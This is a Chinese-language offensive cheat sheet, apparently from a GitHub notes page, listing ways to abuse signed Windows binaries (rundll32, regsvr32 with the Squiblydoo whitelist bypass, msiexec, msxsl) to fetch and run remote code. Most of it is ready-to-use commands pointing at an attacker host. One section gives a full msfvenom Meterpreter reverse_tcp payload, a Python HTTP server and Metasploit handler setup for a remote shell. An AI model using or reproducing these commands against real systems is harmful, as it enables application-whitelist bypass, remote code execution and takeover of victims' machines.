 这个基本上已经不好用了,杀软拦截的厉害

## Rundll32.exe

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

```cmd
rundll32.exe \\192.168.1.1\test.dll,0
```

## Regsvr32.exe

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32 使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载 / 执行）都可以在同一端口上发生。“PSH(Binary)” 将向磁盘写入文件，允许下载 / 执行自定义二进制文件。

```bash
regsvr32 /s /n /u /i:http://192.168.1.1/test.sct test.dll
```

## Msiexec.exe

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.1 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.1
set lport 1234
exploit
```

目标端
```bash
msiexec /q /i http://192.168.1.1/1.msi
```

## msxsl.exe

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```bash
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```
